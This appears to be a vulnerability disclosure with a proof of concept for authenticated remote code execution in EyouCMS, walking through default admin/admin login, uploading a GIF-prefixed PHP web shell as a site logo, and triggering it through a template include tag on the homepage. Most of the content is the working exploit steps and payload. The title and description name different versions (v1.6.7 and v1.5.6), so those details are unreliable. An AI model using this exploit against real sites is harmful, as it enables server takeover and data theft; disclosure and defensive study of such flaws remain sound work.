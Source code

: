 # EyouCMSv1.6.7 has Remote Code Excute vulnerability

## vendors

https://www.eyoucms.com/rizhi/

## Vulnerability function

Avatar upload And template include.

## Description

EyouCMSv1.5.6 has a remote code execution vulnerability in a system, which needs to be authenticated.

## POC

1.  login in the System.

username: admin

password: admin

2. Upload your website's logo

   logo's content:  

   ```
   GIF89a
   <?php system(‘cat /f*’);?>
   ```

![image-20241105221951608](https://github.com/user-attachments/assets/ae78a3c7-db74-46a6-9007-6b2beecacf37)

Upload the GIF and get the path

```
{"url":"\/uploads\/allimg\/20241104\/*.gif","time":1730707775,"width":2573,"height":16188,"title":"banner","original":"750.gif","state":"SUCCESS","path":"images","img_id":"3"}
```

3. Get the path uploads/allimg/20241104/*.gif



4.Go to Map Navigation to add a template to manage

![image-20241105222201758](https://github.com/user-attachments/assets/9f5fe3af-1a6e-4755-bbda-e5f4ee4fa591)

Then click on Template Management to add a file in the file of /pc/index.htm (here is the homepage template of the website).

{eyou:include file=”uploads/allimg/*.gif” /}

5.Then submit, go back to the homepage and get the flag at the bottom

![image-20241105222332182](https://github.com/user-attachments/assets/f5300907-db97-412a-a313-e6c01b51a199)
